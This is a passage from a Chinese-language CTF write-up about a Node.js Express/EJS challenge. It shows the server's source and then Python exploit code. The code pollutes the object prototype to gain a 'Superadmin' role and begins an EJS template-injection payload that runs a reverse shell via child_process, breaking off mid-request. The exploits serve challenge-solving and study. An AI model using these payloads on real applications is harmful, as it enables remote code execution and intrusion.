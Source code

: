 		  app.all('/create', (req, res) => {
		    res.type('html');
		    if (!req.body.name || req.body.name === undefined || req.body.name === null){
		      res.send("please input name");
		    }else {
		      if (Super['userrole'] === 'Superadmin') {
		          res.render('index', req.body);
		        }else {
		          if (!safecode(req.body.name)) {
		              res.send("你在做什么？快停下！！！")
		          }
		          else{
		              res.render('index', {name: req.body.name});
		          }
		        }
		    }
		  });
		  
		  app.get('/',(req, res) => {
		      res.type('html');
		      var token = jwt.sign({'user':'guest'},jwt_secret,{ algorithm: 'HS256' });
		      res.cookie('auth ',token);
		      res.end('Only admin can get source in /source');
		  
		  });
		  
		  app.listen(3000, () => console.log('Server started on port 3000'));
		  ```
	- 分析源码
		- `/code`: [[CTF/JS/原型链污染]]
		- `/create`: [[CTF/JS/EJS的原型链污染]] RCE
	- 原型链污染
		- ```python
		  # url = "http://127.0.0.1:3000"
		  url = "https://dehxljmgktwjty8qtjwd0mlnh.node.game.sycsec.com"
		  
		  r = base_post(
		      url + "/code",
		      json={
		          "constructor": {
		              "prototype": {
		                  "userrole": "Superadmin"
		              }
		          }
		      }
		  )
		  print(r.text)
		  ```
	- EJS RCE
		- 控制`escape`
			- 需要让`client`为真
			- ```python
			  ejs_escape = """\
			  function escapeXMLToString114() {
			    return Function.prototype.toString.call(this) + ';\\n' + escapeFuncStr;
			  }
			  console.log('114514ejs');
			  process.mainModule.require('child_process').execSync(CMD);
			  \
			  """.replace("CMD", repr(reverse_shell_payload))
			  r = base_post(
			      url + "/create",
			      json={
			          "name": "global",